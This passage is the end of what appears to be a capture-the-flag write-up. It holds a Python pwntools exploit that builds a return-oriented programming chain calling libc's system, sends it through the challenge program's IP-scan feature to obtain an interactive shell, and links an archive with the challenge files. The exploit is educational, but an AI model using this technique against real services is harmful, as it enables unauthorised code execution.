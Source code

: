 ```python
num5 = str(int(system[4:8], 16)).encode()
num6 = str(int(system[8:12], 16)).encode()

Payload = b"20506,64,0,0," # 0x000000000040501a : ret
Payload += b"38386,65,0,0," # 0x00000000004195f2 : pop rdi ; pop rbp ; ret
Payload += num3 + b"," + num2 + b"," + num1 + b"," + b"0," # libc
Payload += b"0,0,0,0," # null for the pop rbp
Payload += num6 + b"," + num5 + b"," + num4 + b"," + b"0," # system

p.readuntil(b':')
p.sendline(b'3')
scanIP("127.0.0.100", Payload)
showIP("31")
sleep(0.2)

p.sendline(b'4')
p.readuntil(b'Deleted the local database...\n')

p.interactive()
```
And we get a shell:
![](./shell.png)

Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/lumap.zip)
